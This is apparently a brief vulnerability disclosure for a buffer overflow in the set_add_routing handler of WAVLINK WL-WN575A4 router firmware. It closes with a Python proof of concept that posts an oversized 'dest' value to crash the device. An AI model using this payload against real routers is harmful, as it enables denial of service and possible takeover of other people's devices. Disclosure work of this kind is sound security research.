


# buffer overflow

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a buffer overflow in internet.cgi/set_add_routing

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:




get value from dest 

  
if v5 equal 'net', call strcat, causee buff overflow

## POC
```
url = "http://192.168.0.1/cgi-bin/internet.cgi"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={ 'page=set_add_routing&dest=' + payload + '&hostnet=net'})
``` 
